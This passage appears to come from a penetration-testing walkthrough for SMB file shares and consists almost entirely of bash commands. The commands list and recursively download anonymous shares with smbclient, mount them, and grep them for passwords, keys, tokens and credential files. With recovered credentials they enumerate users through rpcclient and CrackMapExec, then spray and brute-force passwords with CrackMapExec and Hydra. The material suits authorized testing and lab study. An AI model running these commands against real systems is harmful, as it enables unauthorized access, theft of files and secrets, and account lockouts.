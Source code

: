 6) Interact with shares and pull files
```bash
# Replace SHARE with the actual share name (case-sensitive on Linux client)
export SHARE=Public

# Try connecting anonymously
smbclient "//$IP/$SHARE" -N -c "ls; pwd; exit" | tee $OUT/smbclient_${SHARE}_ls.txt

# Recursively download everything (be mindful of size)
smbclient "//$IP/$SHARE" -N -c "recurse on; prompt off; mget *" | tee $OUT/smbclient_${SHARE}_mget.txt

# Using smbmap to list and try recursive listing
smbmap -H $IP -u '' -p '' -r $SHARE | tee $OUT/smbmap_${SHARE}_r.txt

# Mount the share for easier triage (guest)
sudo mkdir -p /mnt/smb_$SHARE
sudo mount -t cifs "//$IP/$SHARE" /mnt/smb_$SHARE -o guest,ro,vers=3.0,uid=$(id -u),gid=$(id -g)
# If mount fails, try different versions: vers=3.0,2.1,2.0,1.0
# Search for sensitive content
grep -RHiIn -I -E "pass|pwd|cred|user|secret|key|token|config|\.kdbx|\.pfx|\.pem|\.ppk" /mnt/smb_$SHARE | tee $OUT/grep_sensitive_${SHARE}.txt
# Unmount when done
sudo umount /mnt/smb_$SHARE
```

7) Re-run with credentials (if found)
```bash
export USER='user1'
export PASS='P@ssw0rd!'
export DOM='WORKGROUP'  # or actual domain

# smbclient authenticated
smbclient "//$IP/$SHARE" -U "$DOM/$USER%$PASS" -c "ls; exit" | tee $OUT/smbclient_auth_${SHARE}.txt

# smbmap authenticated
smbmap -H $IP -d "$DOM" -u "$USER" -p "$PASS" | tee $OUT/smbmap_auth.txt
smbmap -H $IP -d "$DOM" -u "$USER" -p "$PASS" -R $SHARE | tee $OUT/smbmap_auth_${SHARE}_R.txt

# rpcclient authenticated
rpcclient -U "$DOM/$USER%$PASS" $IP -c "enumdomusers; enumdomgroups; queryuser 0x3e8" | tee $OUT/rpc_auth.txt

# CrackMapExec shares and signing with creds
crackmapexec smb $IP -d "$DOM" -u "$USER" -p "$PASS" --shares | tee $OUT/cme_auth_shares.txt
```

8) Optional: password spraying/bruteforce (beware lockouts)
```bash
# Using CrackMapExec to test one password against a list of users
crackmapexec smb $IP -u users.txt -p 'Summer2024!' --continue-on-success | tee $OUT/cme_spray.txt

# Hydra (SMB) brute force (adjust -t to control concurrency; may trigger lockouts)
hydra -L users.txt -P passwords.txt $IP smb -t 4 -f -o $OUT/hydra_smb.txt
```
